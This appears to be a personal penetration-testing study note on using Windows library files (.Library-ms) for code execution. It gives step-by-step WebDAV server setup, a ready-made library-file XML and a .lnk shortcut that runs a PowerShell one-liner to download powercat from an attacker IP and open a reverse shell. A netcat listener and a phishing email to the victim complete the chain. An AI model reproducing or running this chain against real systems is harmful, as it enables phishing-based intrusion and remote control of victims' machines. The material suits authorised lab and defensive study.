 ```yaml
---
tags: WsgiDAV
---
```

Windows library files: 
- virtual containers for user content
- connect users with data stored in remote locations like web services or shares
- file extension: **.Library-ms**

Pros:
- Majority of spam filters and security technologies will pass Windows library files directly to the user (unlike sending a file hosted on a web server via a link)
- When it is double-clicked, Windows Explorer displays the contents of the remote location as if it were a local directory (user thinks they are opening a local file)

## Obtaining Code Execution via Windows Library Files

Two stages:
1. Use Windows library files to gain foothold on target system
2. Use foothold to provide an executable file (**.lnk**) which will start a reverse shell when double-clicked

### Stage 1

1. Use WsgiDAV as WebDAV server on Kali:
   `pip3 install wsgidav`
2. Create root directory of WebDAV server:
   `mkdir /home/kali/webdav`
   `touch /home/kali/webdav/test.txt`
3. Start server:
   `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/`
	- `--host=`: specify host ip
	- `--port=`: specify host port
	- `--auth=anonymous`: disables authentication to our share
	- `--root`: set root of web directory
4. Create Windows library file
   Filename: `config.Library-ms`
   Contents: (change URL to the WebSAV server URL)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Note: After double-clicking the Windows library file, the file contents will be altered by Windows and may not work on future uses.

### Stage 2

1. Create .lnk Windows shortcut file
	1. On Windows Desktop, right-click and create Shortcut
	2. Type the location of the item: (update the IP addresses to the Kali machine's)
	   `powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.68:8000/powercat.ps1'); powercat -c 192.168.1.68 -p 4444 -e powershell"`
	3. Set the name of the shortcut file (e.g. `automatic_configuration`)
	4. Finish
2. Start a Python3 web server on port 8000 where powercat.ps1 is located:
   `python3 -m http.server 8000`
	   Note: We could also host the powercat.ps1 file on the writeable WebDAV share, but endpoint security solutions on the target system may remove or quarantine it. If we configure the WebDAV share as read-only, we’d lose a great method of transferring files from target systems.
3. Start a Netcat listener on port 4444:
   `nc -nlvp 4444`
4. Put `automatic_configuration.lnk` in the WebDAV root directory in Kali.
5. Send a phishing email containing the `config.Library-ms` Windows library file to victim and wait for victim to execute the payload.

## Final notes

Could also combine this method with others (e.g. Microsoft Office macros)

Windows Defender blocked the execution of the reverse shell HAH



   

